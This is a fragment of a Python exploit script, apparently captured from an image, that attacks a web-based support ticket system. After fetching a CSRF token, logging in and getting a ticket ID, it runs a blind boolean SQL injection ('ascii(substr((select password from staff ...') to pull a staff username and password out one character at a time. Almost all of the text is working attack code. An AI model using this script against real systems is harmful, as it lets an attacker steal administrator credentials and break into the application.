 ```py
	limit = 1
	char = 42
	prefix = []
	print()
	print("[+] The Password is.... [+]")
	while(char!=123):
		target_username = sqli_target + " and 1=1 and ascii(substr((select password from staff limit 0,1),"+str(limit)+",1))="+str(char)+" -- -"
		response = r.get(target_username,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []
	print()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-p', '--password', help='Password for the email', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    password = args.password

    global login_url
    login_url = 'http://' + rhost + '/support/?v=login'
    '''Here we call the functions'''
    # Get the CSRF token
    getCSRFToken(rhost)
    # Try to login on the app
    login(csrf_token,username,password)
    # Let's get the id_ticket
    getTicketID(rhost)
    # Let's get the version of mysql
    #getVersion(rhost,id_ticket)
    # Let's get the username of it
    getUsername(rhost,id_ticket)
    # Let's get the password of it
    getPassword(rhost,id_ticket)
    
if __name__ == '__main__':
    main()
```
